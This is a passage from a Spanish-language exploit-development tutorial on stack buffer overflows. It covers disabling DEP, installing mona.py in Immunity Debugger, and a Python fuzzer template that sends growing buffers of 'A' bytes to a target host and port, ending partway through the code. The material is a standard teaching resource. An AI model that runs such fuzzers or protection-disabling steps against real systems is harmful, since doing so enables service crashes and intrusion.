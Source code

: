 
1. Configuración avanzada del sistema.
2. Configuración de rendimiento.
3. Pestaña de prevención de ejecución de datos.
4. Sombreado gris de correcto deshabilitado.

### Instalación de herramientas (Mona)

Para añadir el script de `mona.py` a inmmunity debugger, es necesario descargar el script del [repositorio](https://github.com/corelan/mona) y meterlo en la ruta `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands`.

![Deshabilitado de DEP](./images/bof_3.png)

### Generación de workspace para `mona.py` (opcional)

Para facilitar el uso de `mona.py`, se puede generar un entorno de trabajo (a secas es una carpeta) que contendría lo que `mona.py` genere a partir de los comandos que se utilicen (payloads, patrones, badchars, etc). Ejecutando `!mona config -set workingfolder C:\Users\SrRequiem\Desktop\%p` se indicaría el lugar y a partir del primer comando de `mona.py` que genere archivos, se podrá ver reflejado en el sistema de archivos.

## Fuzzing

En esta sección se realiza la búsqueda del punto de quiebre del binario. Identificando el número de caracteres que causen un fallo de segmentación.

### Plantilla de fuzzer

```python
#from pwn import *
import socket, sys, time

if len(sys.argv) < 2:
   print "\n[!] Uso: python " + sys.argv[0] + "<ip-address> " + "<remote-port>\n"
   sys.exit(0)
# Variables globales
ip_address = sys.argv[1]
rport = int(sys.argv[2])

if __name__ == '__main__':
   contador = 100
   #p1 = log.progress("Data") Log de datos en pwntools
   while True:
      #p1.status(f"Enviando {contador} bytes.") Log de datos en pwntools
      print "Enviando %s bytes." % contador
      buffer = 'A' * contador
      try:
         s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.connect((ip_address, rport))

         data = s.recv(1024)
         #s.send("USER srrequiem\r\n")
         #data = s.recv(1024)
```